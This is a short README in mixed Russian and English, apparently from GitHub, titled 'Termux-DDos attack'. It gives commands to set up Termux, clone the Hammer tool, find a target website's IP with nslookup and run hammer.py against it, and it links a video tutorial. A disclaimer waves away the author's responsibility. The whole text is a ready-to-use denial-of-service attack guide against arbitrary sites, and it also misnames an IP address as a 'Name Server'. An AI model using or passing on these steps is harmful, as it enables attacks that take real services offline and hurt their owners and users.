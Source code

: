 # Termux-DDos attack
### Внимание
Автор данной стати не несет ответственности за любие последствия! 


## Usage:
```
$ apt update
$ apt upgrade
$ apt install python
$ apt install git
$ apt install dnsutils
$ git clone https://github.com/CruzTed/Hammer/

Hammer need the Name Server of a website which you want to attack...
To get the Name Server...just type
$ nslookup example.com
Note the IP Address of that Website

then
$ cd Hammer
$ python3 hammer.py -s [ip Address] -t 135
example:
$ python3 hammer.py -s 123.45.67.89 -t 135
```

## Video Tutorial:
Если ви что либо не понимаете то зайдите и посмотрите видео урок по установлених DDos-Attack

How to use Hammer [`Watch it`](http://www.youtube.com/watch?v=HVbRUhX2EPo)

